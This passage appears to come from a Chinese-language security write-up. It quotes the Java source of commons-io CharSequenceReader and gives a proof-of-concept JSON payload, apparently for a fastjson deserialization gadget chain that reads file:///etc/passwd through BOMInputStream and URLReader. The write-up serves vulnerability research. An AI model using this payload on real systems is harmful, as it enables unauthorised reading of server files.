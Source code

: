 ```java
    public CharSequenceReader(CharSequence charSequence, int start) {
        this(charSequence, start, 2147483647);
    }

    public CharSequenceReader(CharSequence charSequence, int start, int end) {
        if (start < 0) {
            throw new IllegalArgumentException("Start index is less than zero: " + start);
        } else if (end < start) {
            throw new IllegalArgumentException("End index is less than start " + start + ": " + end);
        } else {
            this.charSequence = (CharSequence)(charSequence != null ? charSequence : "");
            this.start = start;
            this.end = end;
            this.idx = start;
            this.mark = start;
        }
    }
		...
}
```

poc如下

{: .prompt-warning }
> charSequence后面是畸形payload

```java
{
  "abc":{
    "@type": "java.lang.AutoCloseable",
    "@type": "org.apache.commons.io.input.BOMInputStream",
    "delegate": {"@type": "org.apache.commons.io.input.ReaderInputStream",
      "reader": { "@type": "jdk.nashorn.api.scripting.URLReader",
        "url": "file:///etc/passwd"
      },
      "charsetName": "UTF-8",
      "bufferSize": 1024
    },
    "boms": [
      {
        "@type": "org.apache.commons.io.ByteOrderMark",
        "charsetName": "UTF-8",
        "bytes": [
          48,
        ]
      }
    ]
  },
  "address" : {
        "@type": "java.lang.AutoCloseable",
        "@type":"org.apache.commons.io.input.CharSequenceReader",
        "charSequence": {
            "@type": "java.lang.String"{"$ref":"$.abc.BOM[0]"
        }
  }
}
```
